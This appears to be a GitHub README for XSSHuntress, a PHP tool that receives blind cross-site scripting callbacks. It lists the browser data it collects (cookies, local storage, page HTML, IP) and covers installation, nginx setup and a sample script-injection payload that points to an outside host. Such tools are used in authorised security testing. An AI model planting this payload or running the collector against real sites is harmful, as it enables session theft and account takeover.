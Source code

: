 <h1 align="center">XSSHuntress</h1>

<h4 align="center">My alternative to XSS Hunter for blind XSS.</h4>

<p align="center">
    <img src="https://img.shields.io/badge/php-%3E=7-blue" alt="php badge">
    <img src="https://img.shields.io/badge/license-MIT-green" alt="MIT license badge">
</p>

---

## Features

- reports stored in `sqlite` database
- sends an email notification whenever a payload is fired
- data collected by client that fired payload: 
    - Time
    - URL
    - Referrer
    - IP
    - User Agent
    - Cookies
    - Local Storage
    - HTML of page that fired payload.


## Installation

1. Clone the repository:

```bash
git clone https://github.com/sfttw/xsshuntress.git
```

2. Navigate to the project directory:

```bash
cd xsshuntress
```

3. Install PHPMailer:

```bash
composer require phpmailer/phpmailer
```

4. Update the paths to the PHPMailer classes in `collect.php`:

```php
require 'path/to/PHPMailer/src/Exception.php';
require 'path/to/PHPMailer/src/PHPMailer.php';
require 'path/to/PHPMailer/src/SMTP.php';
```

5. Update the SMTP server settings and email addresses in `collect.php`:

```php
$mail->Host = 'smtp.example.com'; // Specify main and backup SMTP servers
$mail->Username = 'user@example.com'; // SMTP username
$mail->Password = 'secret'; // SMTP password
$mail->setFrom('from@example.com', 'Mailer');
$mail->addAddress('joe@example.net', 'Joe User'); // Add a recipient
```

## Injection

As soon as the script is available online, you can use your favorite XSS payload:
```
<script src=http://x.example.com></script>
```

---

<img src="https://replacethis.png" />

---

## Configure domain

Using nginx, you can easily configure a vhost like this:

```
server {
        listen 80;
        listen [::]:80;

        server_name example.com;

        root /var/www/example.com;
        index collect.js;

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }

        location ^~ /admin {
        allow 1.1.1.1; #EDIT IN YOUR IP ADDRESS 
        index display.php;
        deny all;

        # This will inherit the allow/deny from the outer location
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
                }
        }

    listen [::]:443 ssl; # managed by Certbot
    listen 443 ssl; # managed by Certbot
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem; # managed by Certbot
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem; # managed by Certbot

}
```

## Notes

1. The `collect.php` file collects the data from the client and stores it in the SQLite database. It also sends an email notification whenever a new entry is added to the database.

2. The `collect.js` file collects the data from the client and sends it to the server.

3. The `display.php` file displays the data stored in the SQLite database.

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License

[MIT](https://choosealicense.com/licenses/mit/)

Feel free to [open an issue](/../../issues/) if you have any problem with the script.  

